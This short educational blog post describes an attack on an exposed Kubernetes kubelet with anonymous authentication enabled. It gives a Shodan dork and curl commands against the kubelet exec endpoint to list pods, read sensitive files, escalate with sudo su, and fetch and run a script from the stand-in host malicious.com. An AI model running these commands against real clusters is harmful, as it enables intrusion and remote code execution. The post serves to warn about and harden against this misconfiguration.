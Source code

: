 # Hacking Kubernetes Kubelet

⚠️ ATTENTION, THIS POST IS FOR EDUCATIONAL PURPOSES ONLY.  

Securing the components of our Kubernetes clusters must be a priority: Kubernetes is notorious for having default settings that are too permissive and hardening measures are often either neglected or focused solely on the API server.

Here's a real-world scenario of what could go wrong:

Our friendly neighborhood sysadmin, Joe, configured a cluster in a risky manner by exposing the kubelet to the internet with anonymous authentication enabled.

A malicious actor is conducting passive reconnaissance on Shodan using the following dork:
𝘬𝘶𝘣𝘦𝘭𝘦𝘵 𝘱𝘰𝘳𝘵:10250

The malicious hacker discovers Joe's cluster, with the kubelet service exposed on the hypothetical host "vulnerablehost" and port 10250.  
At this point, the attacker can attempt a discovery (according to the MITRE ATT&CK framework) with the following command:  

```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘱𝘰𝘥𝘴 | 𝘫𝘲 .
```  


Since kubelet runs with the 𝐚𝐧𝐨𝐧𝐲𝐦𝐨𝐮𝐬-𝐚𝐮𝐭𝐡 flag set to true (default), the attacker will obtain a list of all the pods running on the cluster.  
From now on, if debug endpoints are enabled, the hacker can proceed with malicious actions such as  

Exfiltrate Data:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘤𝘢𝘵 /𝘱𝘢𝘵𝘩/𝘵𝘰/𝘴𝘦𝘯𝘴𝘪𝘵𝘪𝘷𝘦/𝘧𝘪𝘭𝘦'
```  


Remote Code Execution:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘣𝘢𝘴𝘩 -𝘤 "𝘸𝘨𝘦𝘵 𝘩𝘵𝘵𝘱://𝘮𝘢𝘭𝘪𝘤𝘪𝘰𝘶𝘴.𝘤𝘰𝘮/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 -𝘖 /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 && 𝘤𝘩𝘮𝘰𝘥 +𝘹 /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩 && /𝘵𝘮𝘱/𝘮𝘢𝘭𝘸𝘢𝘳𝘦.𝘴𝘩"'  

Privilege Escalation:  
```console
𝘤𝘶𝘳𝘭 -𝘬 𝘩𝘵𝘵𝘱𝘴://𝘷𝘶𝘭𝘯𝘦𝘳𝘢𝘣𝘭𝘦𝘩𝘰𝘴𝘵:10250/𝘦𝘹𝘦𝘤/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦𝘴𝘱𝘢𝘤𝘦>/<𝘱𝘰𝘥_𝘯𝘢𝘮𝘦>/<𝘤𝘰𝘯𝘵𝘢𝘪𝘯𝘦𝘳_𝘯𝘢𝘮𝘦> -𝘟𝘗𝘖𝘚𝘛 -𝘥 '𝘤𝘮𝘥=𝘣𝘢𝘴𝘩 -𝘤 "𝘴𝘶𝘥𝘰 𝘴𝘶"'  
```  

At this point, I assure you that you wouldn't want to be in poor Joe's shoes.  


- [Back to main page](../../../index.md)  
